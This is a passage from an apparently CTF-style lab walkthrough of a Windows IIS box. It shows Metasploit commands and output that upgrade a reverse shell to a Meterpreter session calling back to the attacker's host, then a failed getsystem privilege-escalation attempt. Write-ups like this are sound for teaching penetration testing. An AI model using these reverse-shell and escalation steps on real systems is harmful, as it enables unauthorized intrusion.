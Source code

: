 ```
  2         shell x86/windows  Spawn Shell... Microsoft Windows [Version 6.1.7600] Copyright (c) 2009 Micros...  10.10.x.x:4545 -> 10.129.135.184:49159 (10.129.135.184)
```

This time, we could actually run `post/multi/manage/shell_to_meterpreter` without errors!
```
msf6 > use post/multi/manage/shell_to_meterpreter
msf6 post(multi/manage/shell_to_meterpreter) > show options
...
msf6 post(multi/manage/shell_to_meterpreter) > set session 2
session => 2
msf6 post(multi/manage/shell_to_meterpreter) > exploit

[*] Upgrading session ID: 2
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 10.10.x.x:4433 
[*] Post module execution completed
msf6 post(multi/manage/shell_to_meterpreter) > 
[*] Sending stage (175174 bytes) to 10.129.135.184
[*] Meterpreter session 3 opened (10.10.x.x:4433 -> 10.129.135.184:49160) at 2021-04-25 22:24:04 +0800
[*] Stopping exploit/multi/handler

msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                                                                       Connection
  --  ----  ----                     -----------                                                                       ----------
  2         shell x86/windows        Spawn Shell... Microsoft Windows [Version 6.1.7600] Copyright (c) 2009 Micros...  10.10.x.x:4545 -> 10.129.135.184:49159 (10.129.135.184)
  3         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL                                                           10.10.x.x:4433 -> 10.129.135.184:49160 (10.129.135.184)

msf6 post(multi/manage/shell_to_meterpreter) > sessions -i 3
[*] Starting interaction with 3...

meterpreter > 
```
Heck yeah! We got a meterpreter shell!

## 8. Privilege Escalation
```
meterpreter > getuid
Server username: IIS APPPOOL\Web

meterpreter > getsystem
[-] priv_elevate_getsystem: Operation failed: This function is not supported on this system. The following was attempted:
[-] Named Pipe Impersonation (In Memory/Admin)
[-] Named Pipe Impersonation (Dropper/Admin)
[-] Token Duplication (In Memory/Admin)
[-] Named Pipe Impersonation (RPCSS variant)
```
Ah shit, getsystem didn't work.

